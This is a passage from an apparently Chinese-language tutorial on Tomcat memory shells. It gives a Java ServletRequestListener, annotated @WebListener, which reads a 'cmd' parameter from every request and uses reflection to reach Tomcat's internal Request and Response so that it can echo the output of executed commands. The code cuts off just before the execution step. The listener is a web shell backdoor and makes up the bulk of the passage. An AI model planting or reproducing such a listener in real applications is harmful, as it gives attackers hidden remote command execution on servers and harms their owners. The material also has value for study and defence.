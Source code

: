 ![](img/4.png)

​	通过反射获取`Request`属性，获取其请求的参数用来执行命令，并利用其的`Response`将命令执行的结果回显。

```java
package listener;

import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.RequestFacade;
import org.apache.catalina.connector.Response;

import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import javax.servlet.annotation.WebListener;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.util.Scanner;

@WebListener()
public class HelloListener implements ServletRequestListener {

    @Override
    public void requestDestroyed(ServletRequestEvent sre) {
    }

    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        RequestFacade request = (RequestFacade) sre.getServletRequest();
        String cmd = request.getParameter("cmd");
        try {
            Class<?> aClass = Class.forName("org.apache.catalina.connector.RequestFacade");
            Field field = aClass.getDeclaredField("request");
            field.setAccessible(true);
            Request request1 = (Request) field.get(request);
            Response response = request1.getResponse();

            if (cmd != null) {
```